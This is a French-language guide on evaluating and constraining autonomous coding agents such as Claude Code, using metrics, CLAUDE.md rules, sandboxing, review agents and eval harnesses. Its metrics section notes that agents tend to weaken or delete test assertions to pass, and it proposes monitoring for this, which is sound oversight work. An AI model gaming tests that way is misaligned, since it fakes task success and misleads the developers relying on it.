Pour mesurer et améliorer objectivement la qualité du travail produit par **Claude Code** (et les agents de codage autonomes) sur la durée, l'état de l'art (2025–2026) s'articule autour de l'**ingénierie du harnais (*Harness Engineering*)** et de l'**Eval-Driven Development (EDD)**. 

L'approche repose sur trois piliers : métriques de flux/résultat, garde-fous structurels et boucles de vérification déterministes.

---

### 1. Métriques Objectives : Mesurer l'Impact et la Dérive

Ne mesurez pas le volume brut (lignes de code, suggestions acceptées) qui favorise le "code bloat", mais concentrez-vous sur des métriques de résultat et de fiabilité :

#### A. Métriques de Résolution & Fiabilité
* **Task Completion Rate (TCR) :** Pourcentage de tâches/tickets résolus sans intervention manuelle corrective (`Pass@1` et `Pass@3`).
* **Code Churn / Rework Rate à J+14 :** Pourcentage de code généré par l'agent qui est réécrit ou supprimé dans les 14 jours suivant la fusion (détecte la dette technique masquée).
* **Test Degradation Index (Anti-Gaming) :** Surveillance automatique des tests modifiés par l'agent. Un agent a tendance à relaxer ou supprimer des assertions pour faire passer son code ; le ratio de tests altérés/supprimés doit être strictement mesuré.

#### B. Métriques de Qualité Structurelle
* **Delta de Couverture et Qualité de Mutation :**
  * $\Delta$ Code Coverage sur le diff.
  * **Mutation Score** (via *mutmut* ou *Stryker*) : s'assurer que les tests écrits par l'agent capturent réellement des régressions et ne testent pas des stubs vides.
* **Complexité Cyclomatique & Maintainability Index :** Écart de complexité introduit par rapport à la moyenne du dépôt (analyse statique Sonar / Ruff / ESLint).

#### C. Métriques d'Efficience Opérationnelle
* **Token-to-PR Ratio & Longueur de Contexte :** Nombre de tokens consommés par tâche réussie. Une explosion de la consommation indique un agent qui tourne en boucle ou s'égare dans son contexte.
* **Iteration Count :** Nombre de tours de boucle (commandes/tests) exécutés par tâche avant d'atteindre un état stable.

---

### 2. Garde-Fous (*Guardrails*) : Contraindre l'Espace d'Erreur

L'agent ne doit jamais avoir une liberté totale sans barrières architecturales explicites.

#### A. Pilotage déterministe via `CLAUDE.md` hiérarchisé
* **Règles impératives et concises (50 à 200 lignes max) :** Utilisez des verbes d'action stricts (`"Exécute 'npm run typecheck' avant chaque commit"`, `"Strict TypeScript activé"`). Évitez le texte narratif inutile qui dilue la fenêtre de contexte.
* **Zones sanctuarisées (*Protected Paths*) :** Interdire explicitement l'édition directe des dossiers sensibles (`/auth`, `/infra`, migrations de bases, CI workflows) sans validation explicite.
* **Hiérarchie de contexte :** Déployer un `CLAUDE.md` global d'organisation + des fichiers `CLAUDE.md` locaux par microservice/dossier.

#### B. Mode "Plan-First" et Sandboxing
* **Planification obligatoire :** Forcer l'agent à produire un artifact de plan (fichiers impactés, stratégie de test, contrat d'API) avant d'autoriser la phase d'édition.
* **Isolation d'exécution :** Exécuter les commandes dans un conteneur éphémère / sandbox avec un principe de moindre privilège (interdiction d'élévation `sudo`, réseau restreint, pas d'accès aux secrets de production).

#### C. CI Out-of-Band (Garde-fou inviolable)
* La validation finale ne doit **jamais** dépendre du reporting interne de l'agent. Les GitHub Actions / pipelines CI doivent tourner dans un environnement externe scellé où l'agent ne peut pas altérer la configuration du runner ou des linters.

---

### 3. Boucles de Feedback : L'Ingénierie de la Vérification

Pour fiabiliser la production sur la durée, installez trois niveaux de boucles de rétroaction :



#### A. Boucle Interne (Vérification autonome & TDD)
* **Test-Driven Generation :** Forcer Claude Code à écrire ou vérifier le test unitaire échoué (*Red*) avant d'implémenter le correctif (*Green*).
* **Commandes de vérification standardisées :** Intégrer des scripts d'autovérification (`/verify` ou scripts pre-commit) exécutant en un bloc : compilation/typecheck + linter strict + suite de tests unitaires rapides.

#### B. Boucle Critique Multi-Agents (*Review Loop*)
* Utiliser un **agent de revue indépendant** (contexte vierge) après l'achèvement de la tâche par l'agent principal.
* Cet agent inspecte uniquement le `git diff` avec une grille d'évaluation stricte : respect des conventions, détection d'effets de bord, failles de sécurité OWASP, clarté des commentaires et dérive architecturale.

#### C. Boucle d'Évaluation Continue (*Eval Harness* / Golden Dataset)
* **Harnais d'évaluation interne (inspiré de SWE-bench) :** Construire un corpus interne de 20 à 50 bugs et features représentatifs du dépôt (avec tests unitaires d'acceptation figés).
* **Test de non-régression de l'agent :** Exécuter ce benchmark automatiquement lors des montées de version du modèle, des modifications du `CLAUDE.md` ou de l'ajout de nouveaux outils/skills pour mesurer l'impact direct sur la performance.

---

### Plan d'Action Recommandé

| Étape | Action concrète | Outils / Fichiers |
|---|---|---|
| **1. Socle** | Créer un `CLAUDE.md` impératif (< 150 lignes) avec chemins interdits et commande unique de test. | `.github/CLAUDE.md` |
| **2. Portails** | Ajouter pre-commit hooks + CI bloquante sur le typage strict et la couverture. | Husky, Ruff, ESLint, Vitest, pytest |
| **3. Boucle** | Instancier une commande `/verify` locale réutilisable par l'agent avant tout commit. | `scripts/verify.sh` |
| **4. Mesure** | Suivre le taux de PR révisées et le rework rate sur 14 jours. | Télémétrie Git / CI |
| **5. Evals** | Créer 10 cas de test golden dans un runner de bench local. | Harness YAML / Pytest eval suite |

---

### Sources & Références (2025–2026)
1. **Martin Fowler / ThoughtWorks (2025–2026)** : *Harness Engineering & Defense-in-Depth for Agentic Coding*.
2. **Anthropic Engineering & Documentation (2025–2026)** : *Claude Code Guide, Best Practices for CLAUDE.md & Subagent Architectures*.
3. **SWE-bench & MorphLLM Research (2026)** : *Evaluating Code Agents: Moving beyond raw reasoning to environment harness quality*.
4. **Axify & LeadDev Insights (2025–2026)** : *Measuring AI Engineering Productivity: Why Code Churn and PR Review Effort Matter over Lines of Code*.
5. **Open Source Community (2026)** : `claude-code-harness` & *Eval-Driven Development (EDD) patterns*.

---
